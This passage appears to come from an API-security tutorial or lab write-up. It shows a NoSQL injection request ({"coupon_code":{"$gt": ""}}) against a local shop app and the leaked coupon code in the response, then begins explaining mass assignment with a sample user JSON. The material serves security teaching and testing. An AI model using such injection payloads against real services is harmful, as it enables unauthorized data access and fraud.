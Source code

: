 ```
sec-ch-ua-platform: "Linux"
Accept: */*
Origin: http://localhost:8888
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost:8888/shop
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

{"coupon_code":{"$gt": ""}}
```

With the reponse:
```
HTTP/1.1 200 OK
Server: openresty/1.17.8.2
Date: Sun, 09 Apr 2023 11:28:47 GMT
Content-Type: application/json
Connection: close
Access-Control-Allow-Headers: Accept, Content-Type, Content-Length, Accept-Encoding, X-CSRF-Token, Authorization
Access-Control-Allow-Methods: POST, GET, OPTIONS, PUT, DELETE
Access-Control-Allow-Origin: *
Content-Length: 79

{
   "coupon_code":"TRAC075",
   "amount":"75",
   "CreatedAt":"2023-04-02T15:00:39.778Z"
}
```


## <span style="color: var(--link-color);">Mass Assignment</span>
Mass assignment vulnerabilities can occur when an attacker is able to modify the request parameters sent to the API in order to set values for attributes they should not have access to, such as administrative privileges or sensitive data.

An example is the creation of a user.
Suppose we have an API endpoint "/users" that allows users to create a new user by sending a JSON payload with the following structure:
```json
{
  "name": "Jane Doe",
  "email": "jane.doe@example.com",
  "role": "user"
}
```
In this case, the API endpoint allows mass assignment, but it also sets a default role of "user" if no role is provided in the request payload.
